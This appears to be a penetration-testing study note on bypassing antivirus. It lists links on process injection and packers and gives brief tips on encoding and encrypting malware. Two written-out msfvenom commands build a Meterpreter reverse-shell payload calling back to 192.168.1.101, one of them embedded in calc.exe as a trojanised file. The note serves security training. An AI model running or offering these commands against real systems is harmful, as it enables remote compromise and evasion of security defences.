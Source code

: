# Bypassing Antivirus

## Additional Resources

* [https://sushant747.gitbooks.io/total-oscp-guide/content/bypassing_antivirus.html](https://sushant747.gitbooks.io/total-oscp-guide/content/bypassing_antivirus.html)
* [https://www.shellterproject.com/](https://www.shellterproject.com)
* [https://upx.github.io/](https://upx.github.io)
* [https://enigmaprotector.com/](https://enigmaprotector.com)
* [https://www.microsoft.com/security/blog/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/](https://www.microsoft.com/security/blog/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/)
* [https://en.wikipedia.org/wiki/Dead_code](https://en.wikipedia.org/wiki/Dead_code)
* [https://en.wikipedia.org/wiki/Executable_compression](https://en.wikipedia.org/wiki/Executable_compression)
* [https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
* [https://blog.f-secure.com/memory-injection-like-a-boss/](https://blog.f-secure.com/memory-injection-like-a-boss/)
* [https://en.wikipedia.org/wiki/Windows_API](https://en.wikipedia.org/wiki/Windows_API)
* [https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)
* [https://en.wikipedia.org/wiki/Handle\_(computing)](https://en.wikipedia.org/wiki/Handle_\(computing\))
* [https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
* [https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
* [https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
* [https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)
* [https://www.andreafortuna.org/2017/12/08/what-is-reflective-dll-injection-and-how-can-be-detected/](https://www.andreafortuna.org/2017/12/08/what-is-reflective-dll-injection-and-how-can-be-detected/)
* [https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations)

## How to Find which AV Detects Malware

* find out which AV the target uses.
* upload malware to [virtustotal.com](http://virtustotal.com) and see if the specific AV finds it

## Encoding

* can be done with msfvenom and metasploit
* notice how we set the -e flag here, and then use the shikata_ga_nai encoding
* not that effective since antivirus-vendors have access too

### Example

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
```

## Embed in Non-Malicious File

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -x calc.exe -o bad_calc.exe
```

## Encrypting the malware

* encrypt the malware and radically change the signature
* Hyperion is a great tool for malware encryption

## Tools

* [https://www.shellterproject.com/](https://www.shellterproject.com)
* [https://enigmaprotector.com/](https://enigmaprotector.com)
